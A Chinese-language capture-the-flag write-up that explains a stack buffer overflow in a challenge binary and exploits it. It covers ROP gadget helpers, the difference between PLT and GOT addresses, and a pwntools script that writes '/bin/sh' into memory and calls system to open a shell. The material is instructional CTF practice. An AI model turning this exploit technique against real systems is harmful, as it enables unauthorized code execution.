## 溢出点
很明显在40068E那个函数里典型rettolibc
```
.text:0000000000400692                 sub     rsp, 40h
.text:0000000000400696                 lea     rax, [rbp+var_40]
.text:000000000040069A                 mov     edx, 10
.text:000000000040069F                 mov     esi, 0C8h
.text:00000000004006A4                 mov     rdi, rax
.text:00000000004006A7                 call    read_bytes
```
这里只有0x40的栈空间，而却是读0xc8的字节
加上ebp, 填充0x40+0x08就能到ret的地址了

## ?????
没有给so库
-脸懵逼。。。可以dl-resolve.
参考了l-ctf官方wp

## Tips
```
*1
def gadget_arg1(func_addr, arg):
    payload = overwrite
    payload += p64(poprdiret_addr)
    payload += p64(arg)
    payload += p64(func_addr)
    payload += p64(vulnfunc_addr)
    return payload
*2
def gadget_call(func_addr, arg1=0, arg2=0, arg3=0, init_ret1=movcall_addr, init_ret2=vulnfunc_addr):
    payload = overwrite
    payload += p64(pop5ret_addr)
    payload += p64(0)   # rbx
    payload += p64(1)   # rbp
    payload += p64(func_addr)
    payload += p64(arg3) + p64(arg2) + p64(arg1)
    payload += p64(init_ret1)    # call 
    payload += '\x00'*(7*0x8)       # pop7
    payload += p64(init_ret2)   # 最后返回到有漏洞的地方下次再次利用
    return payload
```

注意上面这两个函数。
1最后是ret左右func_addr应该是plt段的函数地址，
例如.plt [puts] = 0x400500 
调用的时候是rip先到0x400500(这里的指令对应jmp 0x7???????)然后跳到该函数真正地址
但是如果ret 0x601018(这是got表 里面存的是真正的函数地址的值) 就会执行0x601018这个地址对应的值(转换成code)

2是call func_addr, 所以必须是got的地址
.got[read] = 0x601028
调用的时候是call 0x601028(call的是真正的函数的地址 比如call 0x7ff????????)
但是如果用ret 就会ret到0x601028 rip指向0x601028 明显不是真正func_addr的地址

所以 总结来说就是
ret 后面必须是 .plt
__libc_init 里用call来必须是 .got的

## 主要函数
```
def exp(sys_addr):
    # read(0, rwdata_addr, 0x08) 写入8个字节字符串
    payload = gadget_call(read_got, arg1=0, arg2=rwdata_addr, arg3=0x10)
    payload += 'D'*(200-len(payload))
    p.send(payload)
    log.info('Sending system address and binsh')
    p.send('/bin/sh\x00'+p64(sys_addr))
    p.recvuntil('bye~\n')
    # 检查一下
    leak(rwdata_addr,0x08)
    leak(rwdata_addr+8,0x08)
    # call sys "/bin/sh"
    payload = gadget_call(rwdata_addr+8, arg1=rwdata_addr)
    payload += 'D'*(200-len(payload))
    p.send(payload)
    p.recvuntil('bye~\n')
    p.interactive()
```
这里自己用的pwntools
主要是修改got表。期间出了很多问题。细心是关键。
